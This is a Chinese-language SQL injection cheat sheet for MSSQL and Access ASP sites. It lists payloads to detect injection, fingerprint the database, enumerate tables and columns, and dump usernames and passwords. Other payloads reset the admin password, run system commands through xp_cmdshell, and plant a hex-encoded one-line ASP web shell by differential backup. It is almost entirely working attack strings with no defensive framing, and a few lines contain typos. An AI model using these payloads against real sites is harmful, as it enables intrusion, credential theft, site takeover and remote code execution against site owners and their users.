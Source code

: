 整形参数判断 
    1、直接加'  2、and 1=1  3、 and 1=2 
    如果1、3运行异常 2正常就存在注入 
字符型判断 
    1、直接加'  2、and '1'='1'  3、 and '1'='2' 
搜索型： 关键字%' and 1=1 and '%'='%   
        关键字%' and 1=2 and '%'='% 
    如果1、3运行异常 2正常就存在注入 
获取数据库版本 
and (select @@version)>0 
获取当前数据库名 
and db_name()>0 
获取当前数据库用户名 
and user>0 
and user_name()='dbo' 
猜解所有数据库名称 
and (select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) <>0 
猜解表的字段名称 
and (Select Top 1 col_name(object_id('表名'),1) from sysobjects)>0 
and (select top 1 asernaose from admin where id =1)>1 
.asp?id=xx having 1=1  其中admin.id就是一个表名admin 一个列名id 
.asp?id=xx group by admin.id having 1=1 可以得到列名 
.asp?id=xx group by admin.id,admin.username having 1=1 得到另一个列名 页面要和表有联系 
如果知道了表名和字段名就可以爆出准确的值 
union select 1,2,username,password,5,6,7,8,9,10,11,12 from usertable where id=6 
爆账号 
union select min(username),1,1,1，.. from users where username > 'a' 
依次循环爆其余的账号 
union select min(username),1,1,1,.. from users where username > 'admin' 
;begin declare @ret varchar(8000) set @ret=':' select @ret=@ret+' '+username+'/'+password from userstable where username>@ret select @ret as ret into foo end 
修改管理员的密码为123 
.asp?id=××;update admin set password='123' where id =1 
.asp?id=××;insert into admin(asd,..) values(123,..) –就能能往admin中写入123了 
rebots.txt 
猜解数据库中用户名表的名称 
and (select count(*) from 数据库.dbo.表名)>0 
若表名存在，则工作正常，否则异常 
得到用户名表的名称，基本的实现方法是 
1： 
and (select top 1 name from 数据库.dbo.sysobjects where xtype='U' and status>0 )>0 或 
and (Select Top 1 name from sysobjects where xtype=’U’ and status>0)>0 
  但在异常中却可以发现表的名称。假设发现的表名是xyz，则 
2： 
and (select top 1 name from 数据库.dbo.sysobjects where xtype='U' and status>0 and name not in('xyz'，'..'..))>0 
  可以得到第二个用户建立的表的名称，同理就可得到所有用建立的  表的名称 
3: 
and (select top l name from (select top [N]id,name from bysobjects where  xtype=char(85)) T order  by  id  desc)＞1 Ｎ为数据库中地N个表 
利用系统表区分数据库类型 
and (select count(*) from  sysobjects)>0 
and (select count(*) from msysobjects)>0 
若是SQL-SERVE则第一条,ACCESS则两条都会异常 
判断是否有比较高的权限 
and 1=(select is_srvrolemember('sysadmin')) 
and 1=(select is_srvrolemember('serveradmin')) 
判断当前数据库用户名是否为db_owner: 
and 1=(select is_member('db_owner')) 
xp_cmdshell 
:exec master..xp_cmdshell '要执行的cmd命令' 
判断长度 
and (select top 1 len(字段) from 表名)>5 
爆料出正确值 
and (select top 1 asc(substring(字段,1,1)) from 表名)>0 
差异备份 
//备份数据库到某处 
;backup database 数据库名 to disk ='c:\\charlog.bak';-- 
//创建名为datachar的表 
;create table [dbo].[datachar] ([cmd] [image]) 
  cmd为列名 image 数据类型 
//插入值,为一句话木马的16进制形式：<%execute(request("a"))%> 
;insert into datachar(cmd)values(0x3C25657865637574652872657175657374282261222929253E)— 
//进行差异备份,把不同的信息备份到某处 
;backup database 数据库名 to disk='目录' WITH DIFFERENTIAL,FORMAT;--